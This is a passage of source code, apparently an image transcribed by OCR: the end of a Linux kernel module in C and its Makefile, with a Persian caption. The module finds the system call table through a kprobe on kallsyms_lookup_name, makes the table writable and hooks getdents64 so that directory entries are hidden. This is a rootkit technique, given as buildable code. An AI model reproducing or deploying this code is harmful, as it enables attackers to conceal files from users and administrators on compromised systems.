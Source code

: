 ```c
        kfree((void *) dirent_buf);
        return read_bytes - offset;
    }
    kfree((void *) dirent_buf);
    return read_bytes;
}

static int __init hide_module_init(void) {
    struct kprobe probe;
    lookup_func_t get_symbol;
    printk(KERN_INFO "Module loading.\n");
    memset(&probe, 0, sizeof(struct kprobe));
    probe.symbol_name = "kallsyms_lookup_name";
    if (register_kprobe(&probe) < 0) {
        printk(KERN_INFO "Symbol lookup failed.\n");
        return -1;
    }
    get_symbol = (lookup_func_t) probe.addr;
    unregister_kprobe(&probe);
    global_syscall_table = (void *) get_symbol("sys_call_table");
    if (!global_syscall_table) {
        printk(KERN_INFO "Syscall table not found.\n");
        return -1;
    }
    make_page_writable(global_syscall_table);
    original_getdents = ((original_getdents_t *) global_syscall_table)[__NR_getdents64];
    ((original_getdents_t *) global_syscall_table)[__NR_getdents64] = modified_getdents;
    restore_page_protection(global_syscall_table);
    return 0;
}

static void __exit hide_module_exit(void) {
    printk(KERN_INFO "Module unloading.\n");
    make_page_writable(global_syscall_table);
    ((original_getdents_t *) global_syscall_table)[__NR_getdents64] = original_getdents;
    restore_page_protection(global_syscall_table);
}

module_init(hide_module_init);
module_exit(hide_module_exit);
```

کد `Makefile`:
```Makefile
obj-m += hide_home_entries.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
